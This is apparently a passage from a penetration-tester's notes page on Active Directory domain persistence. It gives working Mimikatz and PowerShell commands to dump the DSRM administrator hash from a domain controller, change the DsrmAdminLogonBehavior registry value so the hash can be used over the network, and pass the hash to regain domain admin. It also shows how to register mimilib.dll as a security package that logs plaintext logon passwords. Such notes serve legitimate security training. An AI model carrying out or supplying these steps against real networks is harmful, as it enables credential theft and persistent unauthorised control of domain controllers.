 ### Requirements

* DA privileges are required
* Default: The local Administrator (DSRM Administrator) is default wise not allowed to log on over the network

### Tools

**Dump DSRM password - needs DA privs**\
Invoke-Mimikatz - Command '"token::elevate" "lsadump::sam"' -computername dchostname.dc.local\
\=> Here we take it from SAM hive (only local users), this is the DSRM local Administrator Password

Compare the Administrator hash with the Administrator hash of the below command\
Invoke-Mimikatz - Command '"lsadump:lsa /patch"' -computername dchostname.dc.local\
\=> Here we that it from the lsass process => This is the Administrator account of the Domain

**Change the logon behaviour of the DSRM Account before we can use the DSRM Hash**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Enter-PSsession -computername dchostname.dc.local
</strong>New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" - name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
-------------------------------------------------------------
-or if it already exist -
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" - name "DsrmAdminLogonBehavior" -Value 2
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
</code></pre>



**Later we can us the following command to get DA back**\
****Invoke-Mimikatz -command '"sekurlsa::pth /domain:!domaincontroller-name-here! /user:Administrator /ntlm:ntlm-hash-of-dsrm /run:powershell.exe\
ls \\\dc\c$

## 🐶Custom Security Support Provider (SSP)

### Description

* SSP is a DLL which provides ways fot an application to obtain an authenticated connection. Examples from SSP provided by Microsoft: NTLM, Kerberost, Wdigest, CredSSP
* Mimikatz provides custom SSP - mimilib.dll - This logs local logons, service account and machine account passwords in clear text on the targer server



### Requirement

* DA requires

### Tools

**Way1: Drop the mimilib.dll to C:\Windows\System32 an add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages**\
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -name 'Security Packages' | select -expandproperty 'security packages'\
$packages += "mimilib"\
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -name 'Security Packages' -value $packages\
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -name 'Security Packages' -value $packages\
Reboot the server\
All logons on the DC are logged to C:\Windows\system32\kiwissp.log
